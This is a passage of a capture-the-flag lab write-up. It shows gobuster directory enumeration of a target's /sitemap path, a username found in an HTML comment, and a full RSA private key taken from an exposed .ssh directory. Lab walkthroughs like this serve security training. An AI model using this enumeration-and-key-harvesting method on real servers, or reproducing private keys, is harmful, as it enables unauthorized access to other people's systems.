   ```
  gobuster dir -u http://10.10.82.183/sitemap -w /usr/share/wordlists/dirb/common.txt 

  ===============================================================
  Starting gobuster in directory enumeration mode
  ===============================================================
  /.hta                 (Status: 403) [Size: 277]
  /.htaccess            (Status: 403) [Size: 277]
  /.htpasswd            (Status: 403) [Size: 277]
  /.ssh                 (Status: 301) [Size: 319] [--> http://10.10.82.183/sitemap/.ssh/]
  /css                  (Status: 301) [Size: 318] [--> http://10.10.82.183/sitemap/css/]
  /fonts                (Status: 301) [Size: 320] [--> http://10.10.82.183/sitemap/fonts/]
  /images               (Status: 301) [Size: 321] [--> http://10.10.82.183/sitemap/images/]
  /index.html           (Status: 200) [Size: 21080]
  /js                   (Status: 301) [Size: 317] [--> http://10.10.82.183/sitemap/js/]
  Progress: 4614 / 4615 (99.98%)
  ===============================================================
  Finished
  ===============================================================
  ```
  
- While waiting for scanners to finish, I was exploring the web app and found `Jessie` as potential username. It's in the source code of main page.

  ```
   <!-- Jessie don't forget to udate the webiste -->
          </pre>
          <ul>
                        <li>
                           <tt>apache2.conf</tt> is the main configuration
                           file. It puts the pieces together by including all remaining configuration
                           files when starting up the web server.
  ```
  
- When gobuster for `/sitemap` finished, I went to `http://10.10.82.183/sitemap/.ssh` and you already know what I got there.

  ```
  -----BEGIN RSA PRIVATE KEY-----
  MIIEowIBAAKCAQEA2mujeBv3MEQFCel8yvjgDz066+8Gz0W72HJ5tvG8bj7Lz380
  m+JYAquy30lSp5jH/bhcvYLsK+T9zEdzHmjKDtZN2cYgwHw0dDadSXWFf9W2gc3x
  W69vjkHLJs+lQi0bEJvqpCZ1rFFSpV0OjVYRxQ4KfAawBsCG6lA7GO7vLZPRiKsP
  y4lg2StXQYuZ0cUvx8UkhpgxWy/OO9ceMNondU61kyHafKobJP7Py5QnH7cP/psr
  +J5M/fVBoKPcPXa71mA/ZUioimChBPV/i/0za0FzVuJZdnSPtS7LzPjYFqxnm/BH
  Wo/Lmln4FLzLb1T31pOoTtTKuUQWxHf7cN8v6QIDAQABAoIBAFZDKpV2HgL+6iqG
  /1U+Q2dhXFLv3PWhadXLKEzbXfsAbAfwCjwCgZXUb9mFoNI2Ic4PsPjbqyCO2LmE
  AnAhHKQNeUOn3ymGJEU9iJMJigb5xZGwX0FBoUJCs9QJMBBZthWyLlJUKic7GvPa
  M7QYKP51VCi1j3GrOd1ygFSRkP6jZpOpM33dG1/ubom7OWDZPDS9AjAOkYuJBobG
  SUM+uxh7JJn8uM9J4NvQPkC10RIXFYECwNW+iHsB0CWlcF7CAZAbWLsJgd6TcGTv
  2KBA6YcfGXN0b49CFOBMLBY/dcWpHu+d0KcruHTeTnM7aLdrexpiMJ3XHVQ4QRP2
  p3xz9QECgYEA+VXndZU98FT+armRv8iwuCOAmN8p7tD1W9S2evJEA5uTCsDzmsDj
  7pUO8zziTXgeDENrcz1uo0e3bL13MiZeFe9HQNMpVOX+vEaCZd6ZNFbJ4R889D7I
  dcXDvkNRbw42ZWx8TawzwXFVhn8Rs9fMwPlbdVh9f9h7papfGN2FoeECgYEA4EIy
  GW9eJnl0tzL31TpW2lnJ+KYCRIlucQUnBtQLWdTncUkm+LBS5Z6dGxEcwCrYY1fh
  shl66KulTmE3G9nFPKezCwd7jFWmUUK0hX6Sog7VRQZw72cmp7lYb1KRQ9A0Nb97
  uhgbVrK/Rm+uACIJ+YD57/ZuwuhnJPirXwdaXwkCgYBMkrxN2TK3f3LPFgST8K+N
  LaIN0OOQ622e8TnFkmee8AV9lPp7eWfG2tJHk1gw0IXx4Da8oo466QiFBb74kN3u
  QJkSaIdWAnh0G/dqD63fbBP95lkS7cEkokLWSNhWkffUuDeIpy0R6JuKfbXTFKBW
  V35mEHIidDqtCyC/gzDKIQKBgDE+d+/b46nBK976oy9AY0gJRW+DTKYuI4FP51T5
  hRCRzsyyios7dMiVPtxtsomEHwYZiybnr3SeFGuUr1w/Qq9iB8/ZMckMGbxoUGmr
  9Jj/dtd0ZaI8XWGhMokncVyZwI044ftoRcCQ+a2G4oeG8ffG2ZtW2tWT4OpebIsu
  eyq5AoGBANCkOaWnitoMTdWZ5d+WNNCqcztoNppuoMaG7L3smUSBz6k8J4p4yDPb
  QNF1fedEOvsguMlpNgvcWVXGINgoOOUSJTxCRQFy/onH6X1T5OAAW6/UXc4S7Vsg
  jL8g9yBg4vPB8dHC6JeJpFFE06vxQMFzn6vjEab9GhnpMihrSCod
  -----END RSA PRIVATE KEY-----
  ```